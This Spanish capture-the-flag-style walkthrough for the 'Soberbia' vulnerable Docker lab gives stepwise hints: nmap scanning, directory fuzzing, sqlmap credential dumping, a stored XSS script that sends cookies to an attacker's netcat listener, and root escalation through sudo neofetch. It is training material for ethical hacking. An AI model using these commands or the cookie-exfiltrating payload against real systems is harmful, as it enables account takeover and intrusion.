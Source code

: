 = Soberbia
:author: Manuel L. Quero
:toc: left
:doctype: book

== Despliegue de la máquina

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después deberemos meter en un directorio tanto el auto_deploy.sh como el archivo de soberbia.tar, y ejecutar los siguientes comandos.

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh soberbia.tar
----

== Escenario final

En esta máquina pondremos en práctica todos los conceptos aprendidos previamente. Será una prueba final diseñada para aplicar los conocimientos adquiridos. El objetivo es lograr la escalada de privilegios hasta obtener acceso como root, partiendo de un entorno que, aunque vulnerable, se asemeja a uno real. Será necesario realizar primero un reconocimiento, seguido de la ejecución de distintos tipos de ataques. Se fomenta la exploración libre, sin seguir guías preestablecidas; no obstante, proporcionaré algunas pistas para avanzar en caso de ser necesario.

== Solucionar la máquina

En esta guía se darán pistas, principalmente herramientas y cómo usarlas. Mucha suerte.

=== Reconocimiento

==== Fase 1

Empezaremos conociendo los puertos que tiene abiertos el servidor.

.Pista 1
[%collapsible]
====
Para ello haremos uso primeramente de https://nmap.org/man/es/index.html[nmap].

[source,bash]
----
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn (IP) -oG allPorts
----

* *sudo* -> Necesario porque -sS (SYN scan) requiere privilegios.
* *nmap* -> Llama a la herramienta Nmap.
* *-p-* -> Escanea todos los 65535 puertos TCP (no solo los comunes).
* *--open* -> Muestra solo los puertos abiertos (oculta filtrados/cerrados).
* *-sS* -> SYN scan (stealth scan). Muy rápido y difícil de detectar.
* *--min-rate 5000* -> Fuerza a Nmap a enviar al menos 5000 paquetes por segundo, lo que acelera el escaneo.
* *-vvv* -> Muestra información muy detallada durante el escaneo.
* *-n* -> No resuelve nombres de host (más rápido).
* *-Pn* -> No hace ping; asume que el host está activo (útil si ICMP está bloqueado).
* *(IP)* -> La dirección IP del objetivo.
* *-oG allPorts* -> Guarda los resultados en formato grepable (fácil de extraer con grep o awk) en el archivo allPorts.

image::assets/recon/nmap/nmap.png[nmap,align=center]

Como podemos ver están abiertos los puertos 80 y 22
====

.Pista 2
[%collapsible]
====
Podemos ver sus versiones con el siguiente comando:

[source,bash]
----
nmap -p (PORTS) -sC -sV (IP) 
----

* *-p (PORTS)* -> Indica los puertos que quieres escanear. Puedes poner un solo puerto (80), varios (22,80,443) o un rango (1-1000).
* *-sC* -> Usa los scripts por defecto de Nmap (los más comunes y seguros). Es similar a usar --script=default. Esto ayuda a detectar servicios, banners, configuraciones inseguras, etc.
* *-sV* -> Hace una detección de versión: intenta identificar el software y su versión en cada puerto abierto (por ejemplo, Apache 2.4.57).
* *(IP)* -> La dirección IP del objetivo.

image::assets/recon/nmap/nmapVer.png[Versiones nmap,align=center]

Una vez identificadas las versiones de los servicios, podemos comprobar si están desactualizadas y si presentan vulnerabilidades conocidas (CVEs) que podamos explotar.
====

.Sugerencia
[%collapsible]
====
Generalmente, los exploits se encuentran en repositorios como GitHub o en bases de datos especializadas como Exploit-DB. Para facilitar esta búsqueda, podemos utilizar herramientas como *https://www.exploit-db.com/searchsploit[searchsploit]*, que permite consultar Exploit-DB desde la terminal y verificar si existen exploits públicos para una versión específica.

image::assets/recon/nmap/searchsploit.png[searchsploit,align=center]

Podemos observar que no se ha encontrado ningún exploit relevante en Exploit-DB. Es importante ser precisos con los términos de búsqueda, ya que searchsploit devuelve todos los resultados relacionados, aunque no estén directamente vinculados con nuestros servicios. Por este motivo puede aparecer algún resultado, pero no necesariamente se aplica a nuestro caso.
====

==== Fase 2

Cómo ya hemos podido conocer, se trata de una página web sin certificado y con una conexión ssh, por lo que vamos a empezar analizando la página.

image::assets/recon/fuzz/pagina.png[pagina login,align=center]

.Pista 3
[%collapsible]
====
Aparentemente se ve una página que no tiene nada, pero es muy posible que posea directorios y subdirectorios con archivos. Para conocer la estructura vamos hacer lo que se denomina como fuzzing de contenido, es muy útil para identificar rutas sensibles como /admin, /backup, /config.php, etc. En nuestro caso usaremos https://www.kali.org/tools/feroxbuster/[feroxbuster] y https://www.kali.org/tools/gobuster/[gobuster], y compararemos.

[source,bash]
----
feroxbuster -u http://(IP) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --depth 0 --timeout 5
----

* *-u http://(IP)* -> Define la URL objetivo. Puedes sustituir (IP) por una dirección IP o dominio.
* *-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt* -> Especifica el diccionario que se usará para generar las rutas a probar (en este caso, uno mediano del paquete de DirBuster).
* *--depth 0* -> Recursividad infinita.
* *--timeout 5* -> Define un tiempo de espera de 5 segundos por solicitud antes de que feroxbuster la descarte por falta de respuesta.

image::assets/recon/fuzz/feroxbuster.png[feroxbuster,align=center]
====

.Pista 4
[%collapsible]
====
[source,bash]
----
gobuster dir -u (IP) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
----

* *dir* -> Le especificamos que queremos buscar directorios
* *-u (IP)* -> Define la URL objetivo. Puedes sustituir (IP) por una dirección IP o dominio.
* *-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt* ->  Especifica el diccionario que se usará para generar las rutas a probar (en este caso, uno mediano del paquete de DirBuster).

Gobuster es bastante sencillo de usar, pero un defecto que tiene es que no permite recursividad, teniendo que usar scripts para que haga dicha recursividad. Sinceramente veo feroxuster como una mejora de este.

image::assets/recon/fuzz/gobuster.png[gobuster,align=center]
====

==== Fase 3

.Pista 5
[%collapsible]
====
Bueno, una vez conociendo la estructura, podemos apreciar que hay un directorio en /dev, que se llama pruebas, o un alias de esta ruta que es /devzone. Esto nos sugiere que los desarrolladores podrían estar utilizando esta ruta para realizar pruebas antes de lanzar la versión final del sitio web. Es común que estas zonas contengan código en desarrollo o funcionalidades no protegidas, lo que podría representar una posible vía de explotación.

image::assets/recon/web/pruebas.png[directorio pruebas,align=center]
====

.Pista 6
[%collapsible]
====
Dentro de login.php podemos analizar las tecnologías con *wappalyzer* o con *whatweb* y ver que tecnologías usa.

image::assets/recon/web/wappalyzer.png[wappalyzer,align=center]
====

.Pista 7
[%collapsible]
====
[source,bash]
----
whatweb -a 3 -v http://172.17.0.2/1/2/4/23/dev/pruebas/login.php
----

image::assets/recon/web/whatweb.png[whatweb,align=center]
====

=== Ataque

==== Fase 4

Conociendo un poco más a lo que nos enfrentamos, al ser un login podemos probar con ciertos vectores.

.Pista 8
[%collapsible]
====
Efectivamente con SQLi, pero esta vez no lo vamos a hacer manual, obviamente hay formas más eficientes cómo *sqlmap*, donde comenzaremos por un reconocimiento sabiendo si es vulnerable a SQLi.

[source,bash]
----
sqlmap -u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php" --data "usuario=admin&password=admin" --batch --risk=3 --level=5 --technique=BEUSTQ
----

* *-u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php"* -> Especifica la URL del objetivo, que es un formulario de login.
* *--data "usuario=admin&password=admin"* -> Indica que se trata de una petición POST, con los parámetros usuario y password. sqlmap inyectará en estos campos. Estos los podemos encontrar si hacemos F12 en la página y observando los atributos *name* o *id* de los inputs correspondientes.
* *--batch* -> Ejecuta el escaneo de forma automática, aceptando las opciones por defecto sin preguntar al usuario. Muy útil para automatizar.
* *--risk=3* -> Aumenta el nivel de riesgo de las pruebas. Va de 0 a 3. Este nivel puede activar payloads más agresivos.
* *--level=5* -> Aumenta la profundidad del escaneo. Va de 1 a 5.
* *--technique=BEUSTQ* -> Define las técnicas de inyección SQL a usar:
** B: Boolean-based
** E: Error-based
** U: Union-based
** S: Stacked queries
** T: Time-based blind
** Q: Inline queries

image::assets/atacar/sqli/sqlmap.png[sqlmap recon,align=center]

Cómo podemos ver el parametro usuario es vulnerable, además más abajo se especifica la versión de Mariadb. Ahora vamos a atacar y obtener las credenciales.
====

.Pista 9
[%collapsible]
====
[source,bash]
----
sqlmap -u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php" --data "usuario=admin&password=admin" --dump --batch
----

* *-u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php"* -> URL objetivo. Aquí es la página login.php, que probablemente procese un formulario de login.
* *--data "usuario=admin&password=admin"* -> Indica que se trata de una petición POST, con los datos que se envían (usuario=admin&password=admin). Estos son los campos donde sqlmap probará la inyección.
* *--dump* -> Si se encuentra una inyección válida, extraerá y mostrará automáticamente el contenido de las tablas de la base de datos.
* *--batch* -> Ejecuta en modo automático, sin pedir confirmación para cada acción (muy útil en entornos automatizados o pruebas rápidas).

image::assets/atacar/sqli/sqliattack.png[ataque sqli,align=center]

Como podemos ver, hemos obtenido las credenciales de los usuarios admin y test, por lo que podremos pasar el login.
====

==== Fase 5

Una vez en comentarios, podemos probar cómo funciona el sistema, enviamos un mensaje y nos lo devuelve. Esto nos puede recordar a primeros vectores que aprendimos.

.Pista 10
[%collapsible]
====
Podemos hacer un ataque XSS almacenado, asi que podemos obtener las cookies por *netcat* o mirar en Storage al F12.

image::assets/atacar/xss/comentarios.png[página comentarios,align=center]
====

.Pista 11
[%collapsible]
====
[source,bash]
Mediante el comando *nc* nos podemos conectar a los puertos TCP/UDP de un host. De este modo podemos conectarnos a otros servidores usando diferentes protocolos de red. Además, también es posible crear servidores que se mantengan a la escucha de peticiones entrantes. Los puertos se abrirán por defecto mediante el protocolo TCP, aunque también se acepta el protocolo UDP. En nuestro caso, abrimos un puerto poco frecuenta para recibir los datos, la primera vez que hicimos XSS creamos nuestro propio netcat.

----
nc -lvpn 4444
----

image::assets/atacar/xss/netcat1.png[comando netcat,align=center]
====

.Pista 12
[%collapsible]
====
Después, dentro del comentario meteremos el siguiente script en javascript, que nos pasará las cookies del usuario actual.

[source,javascript]
----
<script>fetch('http://(IP atacante):4444?cookie=' + encodeURIComponent(document.cookie));</script>
----

image::assets/atacar/xss/xss.png[xss script,align=center]

Una vez enviado dicho script veremos una cadena muy larga en GET, ese es el contenido de la cookie:

image::assets/atacar/xss/netcat2.png[envio de cookies a netcat,align=center]
====

.Pista 13
[%collapsible]
====
Copiamos esta cadena y la decodificamos con *cyberchef*, una herramienta web muy util para estos casos. Usamos URL decode, para ver el contenido:

image::assets/atacar/xss/cyberchef.png[cyberchef,align=center]
====

.Pista 14
[%collapsible]
====
Podemos ver que se almacenan las credenciales de ssh, han puesto el usuario y la contraseña hasheada separada por dos puntos. Para crackear hash podemos usar *Crackstation*:

* *Usuario:*

image::assets/atacar/xss/CrackUser.png[nombre usuario,align=center]

* *Contraseña:*

image::assets/atacar/xss/CrackPasswd.png[contraseña,align=center]

Una vez hecho esto ya tendríamos las credenciales del ssh. 
====

.Sugerencia
[%collapsible]
====
También hay otra forma más sencilla de obtener las cookies, simplemente quería mostrar otra forma para hacer XSS y usar netcat. Le damos a F12 en la página y nos vamos a Storage, ahí podremos obtener los hashes que hemos crackeado antes.

image::assets/atacar/xss/F12.png[inspeccionar,align=center]
====

==== Fase 6

Con las credeciales ssh, nos conectamos al servidor:

.Pista 15
[%collapsible]
====

image::assets/atacar/escalada/ssh.png[conexión con el servidor,align=center]

Ahora veremos si tenemos algún privilegio:

image::assets/atacar/escalada/sudo-l.png[comando sudo -l,align=center]
====

.Pista 16
[%collapsible]
====
Podemos ver que tenemos permisos de administración en neofetch. Por lo que buscamos en https://gtfobins.github.io/gtfobins/neofetch/[GTFOBins] si podemos escalar a través de él.

image::assets/atacar/escalada/gtfobins.png[gtfobins,align=center]
====

.Pista 17
[%collapsible]
====
Podemos ver que, para escalar privilegios, debemos crear un archivo temporal con el contenido exec /bin/sh y pasarlo como configuración a neofetch, ejecutado con sudo. Dicho esto, copiamos y pegamos lo que nos indica y obtenemos privilegios de root.

image::assets/atacar/escalada/root.png[somos root,align=center]
====

== Conclusión

De esta forma hemos aprendido cómo funciona una máquina sencilla, con multiples vulnerabilidades, aprendiendo a usar herramientas reales y que normalmente se usan en estos entornos. Además hemos refrescado conocimientos y visto algunos de otra forma. Si queremos avanzar más en el mundo del hacking ético y aprender más recomiendo lo siguiente:

* Conocerte bien, saber que rama quieres aprender, centrándote en atacar o en defender, es vital para luego hacer los certificados, ya que sabrás en cual encajas mejor.
* Hacer muchas máquinas, esto ha sido un ensayo, donde hemos aprendido lo más básico, allí fuera en internet hay máquinas mucho más complejas y divertidas de explorar. Por ello recomiendo:
** https://tryhackme.com/[TryHackMe].
** https://www.hackthebox.com/[HackTheBox].
* Si tenemos tiempo, recomiendo hacer cursos, ya sea aprendiendo lenguajes de programación, cómo de otras destrezas. Siempre es útil aprender, y hay en youtube muchos canales que nos pueden ayudar o academias que ofrecen cursos gratis:
** Academias cómo Udemy.
** Canales cómo S4vitar, MoureDev, El Pingüino de Mario, NetworkChuck, David Bombal, LaurieWired.
* Por último, hacer certificaciones, hay obviamente cursos que te preparan para ello, y es muy recomendable tenerlos para demostrar que sabes hacerlo.
** Dejo este roadmap que nos puede ser muy util para planificar nuestros estudios https://pauljerimy.com/security-certification-roadmap/[CERTS].

Espero que os haya gustado este viaje por las entrañas del infierno, donde hemos aprendido los principales vectores de ataque y cómo mitigarlos. Vuestro Vírgilio se despide de vosotros.

----
"Cuanto más silencioso te vuelves, más puedes oír." 

- Baba Ram Dass
----